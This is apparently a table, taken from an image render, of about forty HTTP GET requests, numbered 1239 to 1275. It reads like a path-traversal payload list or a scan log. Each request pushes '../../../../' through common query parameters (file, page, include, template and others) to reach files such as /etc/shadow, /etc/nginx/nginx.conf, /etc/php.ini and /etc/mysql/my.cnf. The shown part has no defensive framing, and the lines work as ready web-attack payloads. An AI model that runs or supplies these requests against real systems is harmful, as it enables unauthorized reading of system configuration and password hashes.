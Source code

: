 | 1239 |                     1 | GET /?action=../../../../etc/nginx/nginx.conf HTTP/1.1                                                               |
| 1240 |                     1 | GET /?callback=../../../../etc/nginx/nginx.conf HTTP/1.1                                                             |
| 1241 |                     1 | GET /?data=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1242 |                     1 | GET /?doc=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                  |
| 1243 |                     1 | GET /?read=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1244 |                     1 | GET /?page=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1245 |                     1 | GET /?file=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1246 |                     1 | GET /?document=../../../../etc/php.ini HTTP/1.1                                                                      |
| 1247 |                     1 | GET /?section=../../../../etc/php.ini HTTP/1.1                                                                       |
| 1248 |                     1 | GET /?inc=../../../../etc/php.ini HTTP/1.1                                                                           |
| 1249 |                     1 | GET /?include=../../../../etc/php.ini HTTP/1.1                                                                       |
| 1250 |                     1 | GET /?path=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1251 |                     1 | GET /?view=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1252 |                     1 | GET /?content=../../../../etc/php.ini HTTP/1.1                                                                       |
| 1253 |                     1 | GET /?module=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1254 |                     1 | GET /?load=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1255 |                     1 | GET /?layout=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1256 |                     1 | GET /?theme=../../../../etc/php.ini HTTP/1.1                                                                         |
| 1257 |                     1 | GET /?lang=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1258 |                     1 | GET /?template=../../../../etc/php.ini HTTP/1.1                                                                      |
| 1259 |                     1 | GET /?read=../../../../etc/shadow HTTP/1.1                                                                           |
| 1260 |                     1 | GET /?page=../../../../etc/hosts HTTP/1.1                                                                            |
| 1261 |                     1 | GET /?file=../../../../etc/hosts HTTP/1.1                                                                            |
| 1262 |                     1 | GET /?document=../../../../etc/hosts HTTP/1.1                                                                        |
| 1263 |                     1 | GET /?template=../../../../etc/hosts HTTP/1.1                                                                        |
| 1264 |                     1 | GET /?inc=../../../../etc/hosts HTTP/1.1                                                                             |
| 1265 |                     1 | GET /?include=../../../../etc/hosts HTTP/1.1                                                                         |
| 1266 |                     1 | GET /?path=../../../../etc/hosts HTTP/1.1                                                                            |
| 1267 |                     1 | GET /?view=../../../../etc/hosts HTTP/1.1                                                                            |
| 1268 |                     1 | GET /?path=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |
| 1269 |                     1 | GET /?module=../../../../etc/hosts HTTP/1.1                                                                          |
| 1270 |                     1 | GET /?load=../../../../etc/hosts HTTP/1.1                                                                            |
| 1271 |                     1 | GET /?layout=../../../../etc/hosts HTTP/1.1                                                                          |
| 1272 |                     1 | GET /?theme=../../../../etc/hosts HTTP/1.1                                                                           |
| 1273 |                     1 | GET /?lang=../../../../etc/hosts HTTP/1.1                                                                            |
| 1274 |                     1 | GET /?section=../../../../etc/hosts HTTP/1.1                                                                         |
| 1275 |                     1 | GET /?dir=../../../../etc/hosts HTTP/1.1                                                                             |
